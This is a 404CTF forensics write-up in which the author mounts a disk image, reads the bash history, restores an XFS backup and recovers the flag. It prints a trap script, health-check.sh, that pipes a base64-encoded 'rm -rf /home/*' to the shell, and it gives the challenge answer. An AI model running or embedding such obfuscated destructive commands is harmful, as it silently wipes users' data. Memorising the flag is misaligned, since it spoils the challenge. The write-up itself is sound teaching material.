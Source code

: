 # Un boulevard pour pointer

## Challenge
Un script malveillant est présent dans le challenge. La protection de vos données est à votre charge.

Eh petit.e, c'est à toi de jouer. J'ai jeté toutes mes boules et aucune n'est proche du cochonnet. Par contre, tu peux peut-être t'appuyer sur elles pour pointer.

Trouvez le flag. Le fichier une fois décompressé fait 6GO

## Solution

```console
$ file image.img
image.img: DOS/MBR boot sector
$
$ sudo fdisk -lu image.img
Disk image.img: 6 GiB, 6442450944 bytes, 12582912 sectors
Units: sectors of 1 * 512 = 512 bytes
Sector size (logical/physical): 512 bytes / 512 bytes
I/O size (minimum/optimal): 512 bytes / 512 bytes
Disklabel type: gpt
Disk identifier: 3249E840-24CF-40DC-BDC8-FD95544D3951

Device        Start      End  Sectors  Size Type
image.img1     2048    18431    16384    8M BIOS boot
image.img2    18432 11552767 11534336  5,5G Linux root (x86-64)
image.img3 11552768 12582878  1030111  503M Linux filesystem
```

```console
$ sudo kpartx -l image.img
loop31p1 : 0 16384 /dev/loop31 2048
loop31p2 : 0 11534336 /dev/loop31 18432
loop31p3 : 0 1030111 /dev/loop31 11552768
$ sudo kpartx -a image.img
```

Mount the biggest partition:
```console
$ sudo mount /dev/mapper/loop31p2 /mnt/img
```

Looking into root/, we find another file `boule-3.pdf`, so we're one the right track:
```console
$ sudo ls -al root/
total 240
drwx------  7 root    root       156 mai    4 15:21 .
drwxr-xr-x 16 root    root       211 mai    4 14:29 ..
-rw-------  1 root    root       319 mai    4 15:03 .bash_history
drwxr-xr-x  2 root    root         6 déc.   8 11:29 bin
-rw-r--r--  1 thesee  thesee  231710 mai    4 14:49 boule-3.pdf
drwx------  3 root    root        31 mai    4 14:43 .cache
drwx------  2 root    root         6 déc.   8 11:29 .gnupg
-rwxr-xr-x  1 thesee  thesee     224 mai    4 14:48 health-check.sh
drwxr-xr-x  4 root    root        66 mai    4 14:26 inst-sys
drwx------  2 root    root         6 mai    4 14:43 .ssh
-rw-------  1 root    root        66 mai    4 15:21 .xauthHtJAB3
```

Looking at the script `health-check.sh`:
```console
$ sudo cat root/health-check.sh
#!/bin/bash
curl https://flag.challenges.404ctf.fr

echo "!!! this script is really mean. Do you really want to run it ? !!!"
read answer

if  [ $answer = Yes ]; then
    echo "cm0gLXJmIC9ob21lLyo7" | base64 -d | /bin/sh
fi
```

https://flag.challenges.404ctf.fr is a rabbit hole

And that `base64 string` is really nasty:
```console
$ echo -n cm0gLXJmIC9ob21lLyo7 | base64 -d
rm -rf /home/*;
```

Looking at the `bash history`, we see the creation of a `backup` in `/var`:
```console
$ sudo cat root/.bash_history
#1714827044
mv health-check.sh ~
#1714827049
mv boule-3.pdf
#1714827052
mv boule-3.pdf ~
#1714827053
cd
#1714827054
l
#1714827060
cd /var
#1714827069
mkdir backup; cd backup
#1714827430
zypper install xfsdump
#1714827478
xfsdump -l 0 -f backup_home.xfsdump /home
#1714827499
l
#1714827502
cd
#1714826888
zypper update
```

Indeed we can find that a `XFS backup` file:
```console
$ ls -al var/backup/
total 72712
drwxr-xr-x  2 root root       33 mai    4 14:57 .
drwxr-xr-x 11 root root      179 mai    4 14:51 ..
-rw-r--r--  1 root root 74455328 mai    4 14:58 backup_home.xfsdump
$ file var/backup/backup_home.xfsdump
var/backup/backup_home.xfsdump: xfsdump archive (version 3)
```

Let's restore that backup and investigate it:
```console
$ sudo xfsrestore -f backup_home.xfsdump /mnt/backup/
$ ls /mnt/backup/
nicochonnet
$ ls /mnt/backup/nicochonnet/Documents
cochonnet.pdf
```

[cochonnet.pdf](./cochonnet.pdf)

## Flag
> 404CTF{bi1_joué_br4vo_c_le_fl4g}
